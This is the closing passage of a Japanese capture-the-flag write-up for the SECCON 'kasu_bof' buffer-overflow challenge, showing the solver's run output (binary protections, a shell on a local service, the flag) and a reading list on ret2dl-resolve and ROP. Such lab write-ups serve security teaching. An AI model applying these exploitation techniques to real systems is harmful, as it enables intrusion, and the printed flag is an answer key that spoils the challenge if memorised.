    https://github.com/Team-Enu/writeup/tree/main/seccon-ctf-2022/kasu_bof

**** 実行結果
     以上の流れを踏まえて、作成したSolverを実行する。
     #+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ python solve.py 
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 9001: Done
[*] Switching to interactive mode
$ ls
chall
flag-4f8e964cf95b989f6def1afdfd0e91b7.txt
$ cat flag*
SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}
     #+end_example

**** ~SECCON{jUst_4_s1mpL3_b0f_ch4ll3ng3}~
     
**  参考
- 詳解セキュリティコンテスト
  - https://book.mynavi.jp/ec/products/detail/id=122750
  - 33.2.2 発展：関数シンボルの動的解決 p.525
  
- ROP stager + Return-to-dl-resolveによるASLR+DEP回避 - ももいろテクノロジー   
  - https://inaz2.hatenablog.com/entry/2014/07/15/023406

- ret2dl resolve - slideshare
  - https://www.slideshare.net/sounakano/ret2dl-resolve

- セキュリティコンテストチャレンジブック
  - https://book.mynavi.jp/ec/products/detail/id=42421
  - 2.4 エクスプロイト - Retrun to PLT (ret2plt) p.109
    - x86のROP

- リンカ・ローダ実践開発テクニック
  - https://shop.cqpub.co.jp/hanbai/books/38/38071.html
  - 2.9 シンボル・テーブル p.54
    - Elf_Sym構造体について    
  - 2.10 再配置テーブル p.57
    - Elf_Rel構造体について

# - gdbに構造体定義を読み込ませて使う - ももいろテクノロジー
#   - https://inaz2.hatenablog.com/entry/2014/07/21/124857

- ret2dl_resolve Sections 關係表
  - https://hackmd.io/@LJP/BkJmAqXEI
  - ELfのマクロについて


created 2022/11/11\\
updated 2022/12/21
